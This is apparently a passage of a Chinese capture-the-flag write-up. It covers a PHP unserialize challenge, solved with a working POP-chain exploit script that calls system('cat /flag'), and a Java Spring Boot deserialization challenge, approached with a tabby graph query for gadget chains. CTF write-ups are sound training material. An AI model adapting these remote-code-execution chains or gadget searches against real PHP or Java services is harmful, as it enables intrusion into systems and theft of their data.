 ```php
class five{
    public $finish;
    private $name;

    public function __get($name)
    {
        return $this->$name=$this->finish[$name];
    }
}

$a=$_POST["neepu"];
if (isset($a)){
    unserialize($a);
}
```
就是一个简单的php反序列化，主要是通过`four.__destruct()->one.__call()`，然后要满足`$this->neepu->neepuctf()`为true

exp如下：
```php
$a = new four();
$a->rce = "cat /flag";
$a->neepu = new one();
$a->neepu->finish = new two();
$a->neepu->finish->name=array("finish"=>1);

$a->fin = new one();
$a->fin->now = array("NEEPUCTF1"=>"system");
$a->fin->finish = new two();
$a->fin->finish->name=array("finish"=>1);

$b = serialize($a);
echo(urlencode($b));
```
POST传入
![](https://img-blog.csdnimg.cn/cb9a4018d5d34717b766a6eff2d3ef99.png)

成功得到flag
## No Map
直接反编译看一下依赖，存在jackson依赖
![](https://img-blog.csdnimg.cn/048b93f6368540df8e184373d93beeaf.png)

发现是原生的Springboot的反序列化，但是ban掉了HashMap和BadAttributeValueExpException两个toString的链
![](https://img-blog.csdnimg.cn/7278671ac07c4a0aa0dd294229a832f5.png)

我们直接tabby找一下readObject到toString的链，我这里通过排查，最后的查询语句如下：
```
match (source:Method) where source.NAME in ["readObject"]
match (sink:Method {NAME:"toString"})<-[r:CALL]-(m1:Method) where r.REAL_CALL_TYPE in ["java.lang.Object"]
call apoc.algo.allSimplePaths(m1, source, "<CALL|ALIAS", 6) yield path where none(n in nodes(path) where (n.CLASSNAME =~ "javax.management.*" or n.CLASSNAME =~ "com.alibaba.fastjson.*" or n.CLASSNAME =~"java.uti.*" or n.CLASSNAME =~"com.sun.jndi.*" or n.CLASSNAME =~"sun.rmi.*" or n.CLASSNAME=~"java.net.URL.*" or n.CLASSNAME=~"java.io.*" or n.CLASSNAME=~"java.math.BigDecimal" or n.CLASSNAME=~"com.sun.javafx.*" or n.CLASSNAME=~"java.awt.*" or n.CLASSNAME=~"javax.swing.tree.DefaultTreeCellEditor" or n.CLASSNAME=~"com.sun.deploy.cache.*" or n.CLASSNAME=~"javax.security.auth.kerberos.KerberosPrincipal" or n.CLASSNAME=~"javax.crypto.SealedObject" or n.CLASSNAME=~"javax.sql.rowset.serial.SerialArray" or n.CLASSNAME=~"org.yaml.snakeyaml.events.Event" or n.CLASSNAME=~"sun.jvm.hotspot.utilities.ObjectReader" or n.CLASSNAME=~"javax.swing.ArrayTable" or n.NAME=~"clone" or n.CLASSNAME=~"javax.swing.text.DefaultStyledDocument" or n.CLASSNAME=~"javax.swing.tree.DefaultTreeSelectionModel" or n.CLASSNAME=~"java.beans.beancontext.BeanContextSupport" or n.CLASSNAME=~"sun.security.pkcs.PKCS8Key" or n.CLASSNAME=~"sun.font.FontDesignMetrics"))
return * limit 10
```